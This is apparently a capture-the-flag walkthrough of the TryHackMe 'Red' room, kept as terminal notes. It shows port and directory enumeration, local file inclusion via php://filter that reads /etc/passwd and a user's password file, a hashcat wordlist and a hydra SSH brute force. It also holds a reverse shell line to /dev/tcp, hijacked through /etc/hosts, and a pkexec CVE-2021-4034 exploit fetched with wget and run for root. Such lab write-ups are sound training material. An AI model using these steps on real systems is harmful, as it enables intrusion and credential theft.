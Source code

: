 <code>
  
LINK https://tryhackme.com/r/room/redisl33t

### Service Enumeration

┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ nmap -sV  -p- -Pn  red.thm     
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-29 02:31 CDT
Nmap scan report for red.thm (10.10.108.254)
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.37 seconds

### WWW Enumeration

┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://red.thm -x php,txt,html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://red.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php
[+] Timeout:                 10s

2024/05/29 02:52:10 Starting gobuster in directory enumeration mode

/index.php            (Status: 302) [Size: 0] [--> /index.php?page=home.html]
/contact.html         (Status: 200) [Size: 7507]                             
/about.html           (Status: 200) [Size: 9309]                             
/home.html            (Status: 200) [Size: 15757]                            
/services.html        (Status: 200) [Size: 9131]                             
/signup.html          (Status: 200) [Size: 7283]                             
/assets               (Status: 301) [Size: 303] [--> http://red.thm/assets/] 
/portfolio.html       (Status: 200) [Size: 14352]                            
/signin.html          (Status: 200) [Size: 6655]                             
/readme.txt           (Status: 200) [Size: 675]                              
/server-status        (Status: 403) [Size: 272]  

### get local file
GET http://red.thm/index.php?page=php://filter/resource=/etc/passwd HTTP/1.1

root:x:0:0:root:/root:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash

### reply from bash history 
http://red.thm/index.php?page=php://filter/resource=/home/blue/.bash_history
echo "Red rules" cd hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt cat passlist.txt rm passlist.txt sudo apt-get remove hashcat -y 
http://red.thm/index.php?page=php://filter/resource=/home/blue/.reminder
sup3r_p@s$w0rd! 


┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ hashcat --stdout reminder -r ../../../..//usr/share/hashcat/rules/best64.rule > passlist.txt 
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ cat passlist.txt         
sup3r_p@s$w0rd!
!dr0w$s@p_r3pus
SUP3R_P@S$W0RD!
Sup3r_p@s$w0rd!
....

### Use hydra to brute force
┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ hydra -l blue -P passlist.txt ssh://10.10.141.213
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-30 06:22:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.141.213:22/
[22][ssh] host: 10.10.141.213   login: blue   password: sup3r_p@s$w0rd!9
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-30 06:22:29

## Credentials login: blue   password: sup3r_p@s$w0rd!9
get first flag

### run linpeas nothing
### run PsPy32
2024/05/31 08:55:01 CMD: UID=0     PID=42226  | grep -v root 
2024/05/31 08:55:01 CMD: UID=1001  PID=42228  | sh 
2024/05/31 08:55:01 CMD: UID=1001  PID=42229  | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 

on background is creating reverse shell to redrules.thm/9001

## Modify /etc/hosts to own IP and run listener on port 9001
echo "10.9.30.202 redrules.thm" >> /etc/hosts
get red console and second flag 

### run linpeas and found SUID 

red@red:~/.git$ find / -type f -perm -4000 2>/dev/null
/home/red/.git/pkexec

## cant compile exploit CVE-2021-4034 no gcc/cc/depencies but exist Python3  exploit

red@red:/tmp$ wget http://10.9.30.202/CVE-2021-4034.py                          
--2024-05-31 09:14:46--  http://10.9.30.202/CVE-2021-4034.py
Connecting to 10.9.30.202:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3377 (3.3K) [text/x-python]
Saving to: ‘CVE-2021-4034.py’

CVE-2021-4034.py    100%[===================>]   3.30K  --.-KB/s    in 0s      

2024-05-31 09:14:46 (242 MB/s) - ‘CVE-2021-4034.py’ saved [3377/3377]

red@red:/tmp$ python3 CVE-2021-4034.py
python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
id
uid=0(root) gid=1001(red) groups=1001(red)

</code>
